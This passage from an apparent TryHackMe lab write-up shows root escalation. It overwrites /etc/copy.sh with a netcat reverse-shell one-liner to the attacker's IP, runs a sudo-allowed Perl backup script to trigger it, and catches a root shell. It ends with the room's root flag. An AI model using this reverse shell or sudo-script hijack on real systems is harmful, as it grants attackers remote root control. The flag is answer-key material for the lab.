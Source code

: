 So it establishes a reverse shell to 192.168.0.190 on port 5554. We can replace the IP and port to our own so that the reverse shell connection is sent to us.

```
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.48.138 9990>/tmp/f' > /etc/copy.sh
```

We now have to set up a `nc` listener and execute the `/home/itguy/backup.pl` script using `sudo`.

```
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

Let's check our `nc` listener.

```
$ nc -nlvp 9990
listening on [any] 9990 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.37.233] 45084
/bin/sh: 0: can't access tty; job control turned off
# 
```

As we can see, the reverse shell connection has been caught by our listener. We can now read the root flag.

```
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

### Answer

```
THM{6637f41d0177b6f37cb20d775124699f}
```

